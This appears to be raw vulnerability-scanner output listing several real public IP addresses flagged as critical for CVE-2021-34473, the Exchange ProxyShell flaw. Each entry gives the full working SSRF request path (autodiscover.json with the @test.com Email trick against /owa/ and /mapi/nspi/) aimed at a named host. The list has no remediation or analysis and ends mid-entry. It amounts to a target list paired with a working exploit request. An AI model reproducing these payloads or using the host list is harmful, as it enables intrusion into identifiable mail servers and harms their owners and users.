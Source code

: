 ## 78.29.20.106  
  
---  
[CVE-2021-34473] [http] [critical] https://78.29.20.106/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://78.29.20.106/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 62.176.7.225  
  
---  
[CVE-2021-34473] [http] [critical] https://62.176.7.225/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 79.126.116.27  
  
---  
[CVE-2021-34473] [http] [critical] https://79.126.116.27/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://79.126.116.27/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 79.134.202.202  
  
---  
[CVE-2021-34473] [http] [critical] https://79.134.202.202/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://79.134.202.202/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 80.250.85.105  
  
---  
[CVE-2021-34473] [http] [critical] https://80.250.85.105/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 81.201.247.22  
  
---  
[CVE-2021-34473] [http] [critical] https://81.201.247.22/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://81.201.247.22/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 81.222.193.130  
  
---  